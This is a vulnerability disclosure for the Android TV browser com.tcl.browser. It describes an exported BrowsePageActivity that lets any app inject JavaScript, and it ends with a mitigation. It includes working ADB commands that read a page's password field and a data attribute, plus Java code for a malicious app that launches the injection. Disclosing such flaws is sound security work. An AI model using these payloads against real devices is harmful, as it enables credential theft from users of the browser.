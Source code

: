 *** This vulnerability was intially disclosed to TCL on 9/2023 ***


![image](https://github.com/actuator/com.tcl.browser/assets/78701239/82062ff5-9806-499b-85ed-68cb3594e8ae)



## Vulnerability Report

### Overview:
A Remote Code Execution (RCE) vulnerability has been discovered in the `com.tcl.browser` application on the Android platform. The vulnerability allows an attacker to execute arbitrary JavsScript code within the context of the application without any permissions.

### Application Details:

- **Vendor:** - Shenzhen TCL New Technology Co., Limited
- **Application Name:** 'Browser TV Web - BrowseHere' com.tcl.browser
- **Version:** 6.60.055_e974ebe7_231109_gp
- **Component:** com.tcl.browser.portal.browse.activity.BrowsePageActivity

### Vulnerability Details:

- **Vulnerability Type:** Remote Code Execution (RCE)
- **Attack Vector:** Via an exported activity component
- **Permissions Required:** None

### Description:

The `com.tcl.browser.portal.browse.activity.BrowsePageActivity` activity in the `com.tcl.browser` app is exported and can be invoked by any third-party application without requiring any permissions. A malicious app can exploit this to execute arbitrary JavaScript code within the context of the `com.tcl.browser` application.

This vulnerability is particularly concerning because:
- The victim does not need to grant any special permissions to any installed applications.
- The attack can be initiated remotely.

### Proof of Concept (PoC):


![image](https://github.com/actuator/com.tcl.browser/blob/main/poc.gif)

These ADB commands inject JavaScript to extract password data* & can be accomplished without ADB with no permissions.


```bash
adb shell am start -a android.intent.action.VIEW -d 'javascript:(function()%7Bvar%20password%20%3D%20document.getElementById(%27pass%27).value%3Balert(%27Password%3A%20%27%20%2B%20password)%3B%7D)()' com.tcl.browser/com.tcl.browser.portal.browse.activity.BrowsePageActivity
```

Facebook.com

![image](https://github.com/actuator/com.tcl.browser/blob/main/Facebook.gif)


![poc](https://github.com/actuator/com.tcl.browser/assets/78701239/15b32aff-92ac-41f2-9d48-4ae5a04ce354)

```
adb shell am start -a android.intent.action.VIEW -d 'javascript:(function()%7Bvar%20initialValue%20%3D%20document.querySelector(%27input[data-initial-value]%27).getAttribute(%27data-initial-value%27)%3Balert(%27Initial%20Data%20Value%3A%20%27%20%2B%20initialValue)%3B%7D)()' com.tcl.browser/com.tcl.browser.portal.browse.activity.BrowsePageActivity
```

Google.com

![image](https://github.com/actuator/com.tcl.browser/blob/main/Gmail.gif)



---

To demonstrate the vulnerability, one can create a simple Android app that invokes the exported `BrowsePageActivity` activity:


    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Create the intent to start the BrowsePageActivity of com.tcl.browser app
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setComponent(new ComponentName("com.tcl.browser", "com.tcl.browser.portal.browse.activity.BrowsePageActivity"));

        // Set the URL data you want to pass (for example "http://www.example.com")
        intent.setData(Uri.parse("http://www.example.com"));
        // OR intent.setData(Uri.parse("javascript:alert('...');"));

        // Start the activity
        startActivity(intent);
        finish();
    }



### Impact:

Successful exploitation allows an attacker to:
- Execute arbitrary JavaScript code within the context of the `com.tcl.browser` app.

The enabled 'settings.setDomStorageEnabled(true)' value in the app's WebView allows for the use of the Web Storage API.

Risks include:

Credential harvesting if websites store sensitive data.
Manipulating or flooding stored values.
Assisting in malicious persistence.

### Mitigation and Recommendations:

1. **Restrict Activity Export:** Do not export activities unless necessary.
If required, implement proper authorization checks to ensure that only legitimate entities can invoke it.


